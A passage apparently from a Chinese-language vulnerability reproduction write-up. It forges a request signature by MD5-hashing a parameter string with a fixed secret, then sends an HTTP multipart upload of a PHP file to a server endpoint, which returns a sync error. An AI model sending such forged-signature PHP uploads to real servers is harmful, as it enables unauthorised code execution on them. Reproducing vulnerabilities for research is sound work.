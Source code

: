 [![](assets/1709022895-8e7b35c1e72c027aef292ea287be1f32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192116-286d4b02-d499-1.png)

那么就可以直接生成`sign`​了

```bash
<?php echo md5("md=upload&uid=1asdasfasfasfasfasfa");?>
```

那么继续复现

```bash
POST /server/index.php/start?md=upload&uid=1&sign=e8766abd8742eb67a2c07b089ecf636a HTTP/1.1
Host: wp.com
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=--------------------------570796120375390059114427
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 389

----------------------------570796120375390059114427
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-httpd-php

<?php phpinfo(); ?>
----------------------------570796120375390059114427--
```

上传后返回如下

[![](assets/1709022895-1e7a43c93aac1876bbc48ad5d83dc774.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192125-2d8e0bee-d499-1.png)

解码后为 同步错误
